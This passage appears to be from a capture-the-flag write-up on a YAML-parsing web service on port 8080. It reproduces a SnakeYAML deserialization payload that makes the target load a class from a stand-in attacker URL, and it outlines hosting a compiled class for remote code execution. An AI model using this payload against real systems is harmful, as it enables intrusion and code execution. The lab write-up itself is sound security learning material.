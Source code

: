 ## Port 8080

Investigating 8080 we find a service that claims to parse YAML input.

![Port 8080 Homepage](attachments/Ophiuchi1.png)

After searching around about YAML [this](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) article was located explaining how to gain code execution through YAML deserilization. Using their provided POC we can confirm RCE. 

```YAML
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

Using the above POC input with the correct IP we find the server connects back with an HTTP request.

![Port 8080 Homepage](attachments/Ophiuchi2.png)

In order to help get code execution I found and followed along with [this](https://github.com/artsploit/yaml-payload) writeup. Following along with the article we I confirm everything is working with a ping command. The file to execute the ping command is below. After compiling this file we have to put it into the web server we are hosting and use the deserillization attack to run it. 
